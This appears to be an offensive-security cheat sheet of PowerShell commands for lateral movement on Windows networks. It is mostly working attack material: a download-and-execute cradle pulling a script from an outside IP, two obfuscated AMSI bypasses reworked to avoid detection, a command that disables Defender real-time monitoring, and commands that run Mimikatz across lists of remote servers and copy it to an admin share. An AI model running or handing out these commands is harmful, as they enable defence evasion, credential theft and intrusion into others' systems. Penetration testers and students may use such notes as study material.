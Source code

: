 ```yaml
---
coverY: 0
---
```


# Thinking

**Connect to machine with administrator privs**

```
Enter-PSSession -Computername <computername>
$sess = New-PSSession -Computername <computername>
Enter-PSSession $sess
```

**Execute commands on a machine**

```
Invoke-Command -Computername <computername> -Scriptblock {whoami} 
Invoke-Command -Scriptblock {whoami} $sess
```

**Load script on a machine**

```
Invoke-Command -Computername <computername> -FilePath <path>
Invoke-Command -FilePath <path> $sess
```

**Download and load script on a machine**

```
iex (iwr http://xx.xx.xx.xx/<scriptname> -UseBasicParsing)
```

**AMSI Bypass**

* First one gets detected, added a new one!

{% code overflow="wrap" %}
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
{% endcode %}

{% code overflow="wrap" %}
```
$v=[Ref].Assembly.GetType('System.Management.Automation.Am' + 'siUtils'); $v."Get`Fie`ld"('ams' + 'iInitFailed','NonPublic,Static')."Set`Val`ue"($null,$true)
```
{% endcode %}

{% code overflow="wrap" %}
```
Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )} $sess
```
{% endcode %}

**Disable AV monitoring**

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

**Execute locally loaded function on a list of remote machines**

{% code overflow="wrap" %}
```
Invoke-Command -Scriptblock ${function:<function>} -Computername (Get-Content <list_of_servers>)
```
{% endcode %}

{% code overflow="wrap" %}
```
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content <list_of_servers>)
```
{% endcode %}

**Check the language mode**

```
$ExecutionContext.SessionState.LanguageMode
```

**Enumerate applocker policy**

```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

**Copy script to other server**

ps you can edit the script and call the method you wish so it executes, since you still cant load it in

```
Copy-Item .\Invoke-MimikatzEx.ps1 \\<servername>\c$\'Program Files'
```
